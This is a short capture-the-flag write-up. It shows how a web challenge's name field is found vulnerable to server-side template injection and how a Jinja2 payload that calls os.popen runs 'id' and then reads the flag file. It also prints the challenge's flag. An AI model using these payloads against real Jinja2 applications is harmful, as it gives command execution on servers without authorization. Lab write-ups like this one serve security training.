

Observe that the challenge is hinting at "SSTI" with the initial letters in the title "Simple Submit Ticket Interface".

Try fuzzing the name field with the generic SSTI payload by PortSwigger:
`${{<%[%'"}}%\`
https://portswigger.net/web-security/server-side-template-injection

Observe the Jinja2 template error:

Look for SSTI payloads for Jinja2, and try the following payload from PayloadsAllTheThings:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread

Use the following payload to read the flag:
`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag/flag.txt').read() }}`

Flag: `SUCTF{rc3_f0r_7h3_m0d3rn_w3b_4pp}`